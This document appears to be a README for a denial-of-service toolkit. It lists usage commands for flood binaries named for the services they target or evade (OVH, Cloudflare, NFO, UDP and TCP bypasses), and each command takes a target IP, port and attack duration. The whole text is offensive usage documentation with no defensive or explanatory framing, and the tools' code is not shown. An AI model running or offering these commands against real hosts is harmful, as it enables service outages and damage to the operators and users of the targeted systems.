 How to use :

SSA : sudo ./ssa (ip)

ETC : sudo ./etc (ip) (port)

OVH : sudo ./ovh %ip% %port% 9999 0 %time

OVH-V2 : sudo ./ovhbypass2 %ip% %port% %time udp

STD : sudo ./STD-NOSPOOF %ip% %port%

STCP : sudo ./STCP %ip% %port% 10 -1 %time ack

HEX : sudo ./HEX OVH %ip% %port% 300

NUKE-BYPASS : sudo ./HiperOVH %ip% %port

CLOUDFLARE : sudo ./cloudflare %ip% 10 -1 300

ETHERA : sudo ./ETHERA %ip% %port

CPU-SURGE : sudo ./CPU-SURGE TCP %ip% %port% 300

VALID-SYN : sudo ./WRA %ip% %port% 10 -1 300

R4P3 : sudo ./gre %ip% 10 -1 300

NFO : sudo ./NFO %ip% %port% 10 -1 300

UDP-BYPASSV2 : sudo perl UDP-BYPASS-V2.pl %ip% %port% 5500 300
